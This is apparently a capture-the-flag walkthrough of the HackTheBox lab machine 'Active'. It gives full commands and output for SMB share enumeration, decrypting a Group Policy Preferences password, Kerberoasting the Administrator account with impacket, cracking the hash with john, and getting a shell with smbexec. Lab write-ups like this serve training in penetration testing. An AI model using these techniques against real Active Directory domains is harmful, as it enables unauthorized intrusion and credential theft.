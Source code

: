 # Active

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.192.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:08 EDT
Nmap scan report for 10.129.192.152
Host is up (0.014s latency).
Not shown: 60173 closed tcp ports (conn-refused), 5341 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
49170/tcp open  unknown
49172/tcp open  unknown
```

Since this is an AD machine, we can start with basic enumeration of SMB shares, Kerberos and LDAP.

### SMB Enum

Checking SMB shares via `smbmap` reveals there is one share available:

```
$ smbmap -H 10.129.192.152                                  
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS
```

We can use `smbclient` to login and view the files:

```
$ smbclient -U "" //10.129.192.152/Replication -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

                10459647 blocks of size 4096. 5186557 blocks available
```

We can download all the files present within the machine using these commands, and I saw an interesting file:

{% code overflow="wrap" %}
```
mask ""
recurse ON
prompt OFF
mget *
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (16.8 KiloBytes/sec) (average 23.8 KiloBytes/sec)
```
{% endcode %}

Within this file, we can find an encrypted pasword:

{% code overflow="wrap" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
{% endcode %}

This was a GPO password, and it can be decrypted using `gpp-decrypt` since we have the key and the password.

{% embed url="https://www.kali.org/tools/gpp-decrypt/" %}

```
$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Now, we have a password of a service account to use. With this, we can read the `C:\Users` directory and find the flag in the Desktop of `SVC_TGS` user.&#x20;

```
$ smbmap -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -H 10.129.192.152 
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

## Privilege Escalation

### Kerberoasting

We have access to a service account here, and it is for the Ticket Granting Service. As such, we can attempt to do Kerberoasting.&#x20;

```
$ impacket-GetUserSPNs -request -dc-ip 10.129.192.152 active.htb/SVC_TGS -outputfile hashes.kerberoast 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-05-05 02:07:43.878117             
```

So we can use this to harvest the TGS tickets for the administrator. Then, we can crack the hash (because user passwords are used to encrypt the tickets).

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2023-05-05 02:21) 0.2277g/s 2400Kp/s 2400Kc/s 2400KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can get a shell via `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Rooted!
